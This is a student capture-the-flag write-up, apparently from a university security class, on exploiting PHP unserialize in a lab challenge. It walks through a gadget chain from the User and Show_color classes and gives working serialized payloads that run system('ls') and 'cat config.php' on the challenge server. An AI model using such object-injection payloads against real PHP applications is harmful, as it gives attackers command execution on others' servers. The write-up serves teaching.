 ![](images/cover.png)

## Decription
This is our task from teacher at NT521.ANTT pratical class (Nghi Hoang Khoa) ^^. My team called by **54010N** and you can see us in [CTF Time](https://ctftime.org/team/143012)
As teacher say, our work is find out flag of challenge by exploiting the PHP serialize/deserialize vulnerability.

## Challenge
Link: *http://45.122.249.68:10001*

If you're lazy, you can see the quick code [here](chall.php)

## Analytics
By reading and following the code, we analysed the code and proposed a few judgments (*for convenient in handling, we get the code back local and handle on it*):

**Source code overview**
If `isset($_GET['code']` not null, the site will unserialize the code input which we can put it into the site to request.
The code input is a object type. We have to serialize the code to right format and request to server. **(1)**

**About *class User***
```php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name; //???something went wrong here!!!
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
```
We realize that at the line 5, author uses`$this->$name = $name;` instead of `$this->$name = $name;`.

By *our test below*, we see that the output will add a "54010N" property into User object with the value as same as property's name.

[](images/usertest.png)

Moreover, the `$name` and `$is_admin` properties are changed to `Username` and `Useris_admin` ?? :smile: ??.  *What is special when author make that?* **(2)**

**About *class Show_color***
I put the code of User class here so that you can follow easily:
```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

You can see that this class have the `call_user_func()` which have the feature like callback function [(call the callback function)](https://www.php.net/manual/en/function.call-user-func.php). So, here is probably the key of the challege ^^. We can use it to call any the function in program :3.

In line `call_user_func($this->type->adu,$this->color);`, the first parameter will call `$this->type->adu` but *where is `adu` property?*

**About *class do_nothing***
As the class name, it's not relate to something in this challenge.

## Solution

After trying many ways, we was finally find out the way to capture the flag. Let's us begin with step by step!

Remember to the previous section, in User class, *construc()* function use `$this->$name = $name;` instead of `$this->name = $name;` and we had a question in there. At here, everything seemed to mutual matching. We can use `call_user_func()` to force User's class construct a new user object and add a `adu` property into it. And with this way, we will try to use `system("ls")` command to explore some files which is archived on server through `call_user_func()`.

First, we will generate a **adu** user and serialize it to object format.

```php
$user = new User("adu"); //create new user "adu"
$code = serialize($user); //serialize to object format
echo $code;
```
> Output: `O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}`

Next, we try to call `call_user_func()` through *Show_color* class to call *"ls"* command.
```php
$user = new User("adu"); //Create new user "adu"
$showcolor = new Show_color($user, 'ls');
$code = serialize($showcolor);
echo $code;
```
> Output: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}}`

Using this output as payload:

![](images/wrong.png)

The *ls* command is not execute and the server return a error. So we need to repair the payload.
- As mention in **(1)**, `name` and `is_admin` in User's class were added the string *"User"* to head so we need to remove it before request to server.
- We have to change the `is_admin` from `false` to `true` by change the *"is_admin";b:0;"* as *"is_admin";b:1;"* so that we can become a importor as admin.
- Specialy, the server is not compile `system("ls")` command because the `adu` property have *adu* value rather than *system* value. So, the system will be compile *adu("ls")* instead of *system("ls")*. That is the reason why we must to change the value of `adu` property to *"system"*.

Now, let's request by the changed payload: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`:

![](images/rightway.png)

Yeah, we are success when execute `system("ls")` on the server. Now our work is checking files and find out the flag because the string *"hi admin, here is your flag"* is not the flag :(((
> Payload: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`

*Ctrl + U* is shortcut key to view source and it's the way that we captured the flag :3
![](images/flag.png)

**Note:**
- *When we changed the payload, the important thing that we need to remember is changing the length of property*
- The final source code here [code.php](code.php)

## Flag
> **flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**

